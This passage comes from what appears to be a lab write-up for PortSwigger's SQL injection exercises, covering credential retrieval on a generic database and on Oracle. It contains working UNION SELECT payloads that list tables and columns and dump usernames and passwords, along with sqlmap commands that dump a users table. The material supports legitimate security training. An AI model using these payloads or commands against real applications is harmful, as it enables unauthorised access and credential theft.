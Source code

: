```
```
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
```
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```
8. Find the password for the ``administrator`` user, and use it to log in.

## SQL injection attack, listing the database contents on Oracle
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle


### Quick Solution
The same applies for this lab with a little difference: ``Oracle`` DBMS is a little bit different when it comes to databases. So I used this commands:
```
# Get Tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --tables
# Then I found the target table and runned
docker run -it --rm secsi/sqlmap -u "<target_url>" -T <users_table_name> --dump
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter:
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
3. Use the following payload to retrieve the list of tables in the database:
```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: 
```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
```
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
8. Find the password for the ``administrator`` user, and use it to log in.

## Blind SQL injection with conditional responses
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
